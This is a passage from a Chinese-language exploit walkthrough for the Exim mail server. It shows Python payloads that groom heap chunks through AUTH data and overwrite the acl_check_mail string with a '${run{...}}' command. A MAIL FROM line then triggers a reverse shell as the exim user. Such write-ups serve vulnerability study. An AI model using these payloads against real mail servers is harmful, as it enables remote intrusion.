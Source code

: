 ```
ehlo(s, 'crashed')
```

[![](https://p0.ssl.qhimg.com/t011efe500a1675da73.png)](https://p0.ssl.qhimg.com/t011efe500a1675da73.png)<br>
此时，unsorted bin中有两个大小为0x2020的chunk（0x5653564e8040、0x5653564ecc70），下一步就是先占用这两个0x2020字节大小的unsorted bin，然后覆盖0x5653564c76f0这个chunk。

### <a class="reference-link" name="5.9%20%E5%8F%91%E9%80%81auth%E6%95%B0%E6%8D%AE%EF%BC%8C%E8%A6%86%E7%9B%96acl_check_mail%E5%AD%97%E7%AC%A6%E4%B8%B2"></a>5.9 发送auth数据，覆盖acl_check_mail字符串

```
payload4 = 'a'*0x18 + p64(0xb1) + 't'*(0xb0-0x10) + p64(0xb0) + p64(0x1f40)
payload4 += 't'*(0x1f80-len(payload4))
auth(s, b64encode(payload4)+'ee')
```

占用第一个0x2020字节大小的chunk：0x5653564e8040。解释一下，这里也是用伪造chunk的方法，首先伪造一个0xb0大小的chunk，然后伪造一个0x1f40大小的chunk，这样来达到占用0x2020大小chunk的目的。<br>[![](https://p0.ssl.qhimg.com/t019f1ded000b423e15.png)](https://p0.ssl.qhimg.com/t019f1ded000b423e15.png)

```
payload4 = 'a'*0x18 + p64(0xb1) + 't'*(0xb0-0x10) + p64(0xb0) + p64(0x1f40)
payload4 += 't'*(0x1f80-len(payload4))
auth(s, b64encode(payload4)+'AA')
```

占用第二个0x2020字节大小的chunk：0x5653564ecc70。<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01fae78f4bb6363fa8.png)<br>
此时的堆布局就可以开始覆盖地址为0x5653564c76f0的chunk了。

```
payload5 = "a"*0x78 + "$`{`run`{`" + command + "`}``}`x00"
auth(s, b64encode(payload5)+"AA")
```

[![](https://p3.ssl.qhimg.com/t01c520da943fad5553.png)](https://p3.ssl.qhimg.com/t01c520da943fad5553.png)<br>
这里需要提一下就是，command命令长度是有限制的，否则会覆盖后面的日志文件路径字符串，导致exim进入其他错误处理流程而不调用execv函数执行command命令。

### <a class="reference-link" name="5.10%20%E8%A7%A6%E5%8F%91acl%E6%A3%80%E6%9F%A5"></a>5.10 触发acl检查

```
s.sendline("MAIL FROM: &lt;test@163.com&gt;")
```

触发acl检查，执行/bin/bash命令，反弹shell，效果如下图所示。<br>[![](https://p2.ssl.qhimg.com/t01037cbdc83fa6d527.png)](https://p2.ssl.qhimg.com/t01037cbdc83fa6d527.png)

[![](https://p4.ssl.qhimg.com/t01dd8cb7a21a7c0878.png)](https://p4.ssl.qhimg.com/t01dd8cb7a21a7c0878.png)<br>
这里需要说明的是反弹的shell不是root权限，而是用户exim权限。
